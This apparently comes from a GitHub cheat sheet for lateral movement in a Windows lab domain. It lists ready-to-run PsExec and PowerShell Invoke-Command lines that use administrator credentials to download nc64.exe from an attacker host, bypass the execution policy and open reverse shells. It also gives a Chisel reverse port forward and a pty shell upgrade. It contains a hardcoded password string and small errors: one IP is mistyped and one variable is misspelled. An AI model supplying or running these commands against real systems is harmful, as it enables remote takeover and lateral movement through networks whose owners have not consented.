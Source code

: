## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

- ``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

- ``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

- PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

- PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

- Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```

## Tool: PSRemote

To download nc64.exe on a remote machine and obtain a reverse shell (using PSCredential object)

```powershell
[string]$userName = 'yaksas'
[string]$userPassword = 'password'

# Convert to SecureString
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -Scriptblock {wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8081 -e powershell.exe} -computername ws01 -credential $credOjbect
```

## Tool: Chisel

To forward local port 80 

```Start-job -name "chisel" -ScriptBlock {C:\Users\yks\appdata\chisel.exe client 192.168.14.10:8080 R:8008:127.0.0.1:80}```

## Convert to full shell

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

